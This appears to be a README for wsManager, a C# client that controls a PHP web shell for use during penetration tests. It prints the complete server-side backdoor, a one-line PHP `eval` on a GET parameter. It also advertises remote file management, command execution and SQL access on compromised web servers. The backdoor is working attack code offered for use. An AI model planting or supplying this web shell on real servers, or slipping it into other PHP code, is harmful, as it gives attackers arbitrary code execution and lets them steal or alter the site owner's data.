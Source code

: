 ## Information

wsManager can be used to quickly execute commands on a server while pentesting a PHP application. 
The client interface is written in C#, which operate using a simple web-based backdoor implemented by user himself.

Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

The server-side code is extremely simple and contains just a single line of code :
```php
<?php @eval($_GET["x"]); ?>
```

Many commands and control features:

  * File manager (upload, download, archiver, etc)
  * Command execution
  * SQL Explorer

## Documentation

Coming soon

## Screenshots

![](https://i.imgur.com/vDoTUUJ.png)
![](https://i.imgur.com/ZU4HJmd.png)
![](https://i.imgur.com/3I7Rjdf.png)
![](https://i.imgur.com/zbB5XTs.png)
![](https://i.imgur.com/VeRb4dN.png)

## Misc

Todo:
  * .
